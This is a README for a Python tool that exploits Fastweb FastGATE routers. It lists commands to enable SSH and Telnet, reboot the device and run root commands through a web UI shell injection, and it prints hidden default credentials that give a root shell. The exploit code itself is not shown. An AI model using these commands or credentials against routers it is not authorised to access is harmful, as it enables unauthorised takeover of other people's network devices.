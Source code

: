 # FastGATE Python tool

Python tools for Fastweb FastGATE exploits.

```
Usage: fastgate [OPTIONS] COMMAND [ARGS]...

Options:
  -h, --host TEXT     IP address or hostname
  -p, --port INTEGER  HTTP port
  --help              Show this message and exit.

Commands:
  check_login  Check web UI authentication.
  get_root     Attempt to enable access to SSH/Telnet.
  reboot       Reboot router.
  shell        Run command on router with shell injection...
```

## Installation

```sh
pip install https://github.com/Depau/fastgate-python/archive/master.zip
```

## Usage

#### Enable SSH and Telnet from local network:

```sh
fastgate get_root
```
You can then SSH to the router. Log in as `lanadmin`, `lanpasswd`.

In the router's custom shell, run the `sh` hidden command and log in as `lanadmin`, `lanpasswd` or `FASTGate`, `Testplant123` to get a root shell.

#### Reboot router

```sh
fastgate reboot
```

#### Run command as root on router (uses web UI shell injection, no output)

```sh
fastgate shell (command)
# i.e.
fastgate shell /usr/sbin/rc_task firewall restart
fastgate shell /usr/sbin/rc_task sshd restart
```

#### Check web UI login

```sh
fastgate check_login --u username -p password
```
or simply
```sh
fastgate check_login
```
(you will be prompted for login info)

# Credits

- @Nimayer https://github.com/Nimayer/fastgate-toolkit
